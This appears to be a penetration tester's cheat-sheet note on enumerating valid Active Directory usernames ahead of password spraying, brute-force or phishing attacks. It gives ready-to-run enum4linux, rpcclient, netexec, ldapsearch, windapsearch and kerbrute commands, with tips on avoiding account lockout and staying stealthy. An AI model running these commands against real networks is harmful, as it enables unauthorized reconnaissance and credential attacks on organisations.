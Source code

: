 -- -
Generate a list of valid domain usernames for you to attack via a #passwordspray attack, bruteforce attack or phishing attack. 
### Tactics
- Leverage #SMBNull session to retrieve a complete list of domain users from the domain controller.
- Leverage LDAP anonymous bind to pull down list of valid domain users
- Leverage [[Dark Arts/Tools/Kerbrute|Kerbrute]] to validate users using a wordlist from the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) repo or gathered by a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid users. 
- Use sets of credentials provided by the client or obtained through other means such as [[LLMNR Poisoning]] or a successful password spray using a smaller wordlist. 
### Leverage Anon Access
Automated tools that leverage #SMBNull sessions or LDAP anonymous binds.
##### enum4linux
```bash
enum4linux -U <ip> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

^3ddb4d

##### rpcclient
```bash
# connect to server
rpcclient -U "" -N <ip>

# on server over rpc
enumdomusers
```

^3479a7

##### Netexec
Will return valid users with the amount of invalid login attempts on that user as well as the last time there was an incorrect login attempt. Helps us determine how close an account is to lock out. If the environment uses multiple DCs, then the bad login data points would be tracked separately on each DC, so we would need to query each DC and add up the amount of bad login attempts there have been for that account. 
```bash
# you may need to use sudo
# you may need to point to a DC specifically rather than any server on the network.
# w/o credentials
netexec smb <ip> --users

# w/ credentials
netexec smb <ip> -u <user> -p <passwd> --users
```

^38aeea

##### ldapsearch
Get valid domain users from LDAP anonymous bind
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

^327bd7

##### windapsearch
Get valid domain users from anonymous bind
```bash
./windapsearch.py --dc-ip <dc ip> -u "" -U
```

^bb80aa

##### Kerbrute
Uses kerberos pre-auth to determine if a username is valid. Potentially more stealthy approach and does not lock out accounts.
```bash
kerbrute userenum -d <domain> --dc <dc ip> <wordlist>
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```